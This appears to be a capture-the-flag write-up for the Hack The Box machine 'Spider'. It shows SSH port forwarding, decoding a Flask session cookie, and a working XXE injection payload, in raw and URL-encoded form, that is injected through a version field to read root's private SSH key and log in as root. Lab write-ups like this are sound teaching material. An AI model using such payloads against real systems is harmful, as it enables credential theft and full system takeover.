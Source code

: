 # SSH 

![[Pasted image 20210530220350.png]]

# Listening Ports

```
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                                                                                                                              
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                                                                                                                       
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -  

```

# Redirecting 8080 to our machine
```ssh -L 8080:127.0.0.1:8080 chiv@spider.htb```

![[Pasted image 20210530224823.png]]

The webpage just ask for a username, so lets put something random... and we're in. We see the server prints a Welcome username message... could this also be vulnerable to something?

![[Pasted image 20210531012409.png]]

Checking the cookie with flask-unsign

```bash
flask-unsign --decode --cookie='.eJxNjEFvgyAARv_KwnkHdHYHk14MqKPTBhSw3CA0w4rOVLNZm_73rcma7Pjy3vddgV96D-IreDIgBhyXqcVLTTsimJwH0QfyKIuLyVWreRrV2ZhYHiDasEIg9s6x29n-beXVjH79UPEy2adjzk6Juvs7K-gRlZZQiCOVur3JyrmUrhUBP8sebqxPsH1RncSb6RDCQGekEf_-_vaUhcurRCTTIWlMLqjucFQjMh39x4X1cyvCJeCZ_Xr0dPVnKVyl02QwqysKOIaHU8l239stuD2D8bMd5gnE8PYDYyBVjg.YLQb7Q.unSqfbo-QukckP6JGpHRENRoHWU' 
{'lxml': b'PCEtLSBBUEkgVmVyc2lvbiAxLjAuMCAtLT4KPHJvb3Q+CiAgICA8ZGF0YT4KICAgICAgICA8dXNlcm5hbWU+Zm9vPDwvdXNlcm5hbWU+CiAgICAgICAgPGlzX2FkbWluPjA8L2lzX2FkbWluPgogICAgPC9kYXRhPgo8L3Jvb3Q+', 'points': 0}
```

We see it returns a base64 string, and after decoding we see it's a XML

```bash
echo "PCEtLSBBUEkgVmVyc2lvbiAxLjAuMCAtLT4KPHJvb3Q+CiAgICA8ZGF0YT4KICAgICAgICA8dXNlcm5hbWU+Zm9vPDwvdXNlcm5hbWU+CiAgICAgICAgPGlzX2FkbWluPjA8L2lzX2FkbWluPgogICAgPC9kYXRhPgo8L3Jvb3Q+" | base64 -d                                      1 ⚙
<!-- API Version 1.0.0 -->
<root>
    <data>
        <username>foo</username>
        <is_admin>0</is_admin>
    </data>
</root>    
```

So this can be vulnerable to XXE Injection, since from burp suite we can modify the version and the username parameters.

```xml
1.0.0 -->
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///root/.ssh/id_rsa"> ]><!--
```

Encoded with URL:

```url
%31%2e%30%2e%30%20%2d%2d%3e%0a%3c%21%2d%2d%3f%78%6d%6c%20%76%65%72%73%69%6f%6e%3d%22%31%2e%30%22%20%3f%2d%2d%3e%0a%3c%21%44%4f%43%54%59%50%45%20%72%65%70%6c%61%63%65%20%5b%3c%21%45%4e%54%49%54%59%20%65%6e%74%20%53%59%53%54%45%4d%20%22%66%69%6c%65%3a%2f%2f%2f%72%6f%6f%74%2f%2e%73%73%68%2f%69%64%5f%72%73%61%22%3e%20%5d%3e%3c%21%2d%2d
```

And on username with &ent;

![[Pasted image 20210531012948.png]]

Shall print out the Private key

###### Footnote
We can decode the generated token from our payload to see the final XML Result

![[Pasted image 20210531013205.png]]

# Getting Private Key

![[Pasted image 20210531012238.png]]

```bash
ssh root@spider.htb -i id_rsa
``` 

![[Pasted image 20210531012847.png]]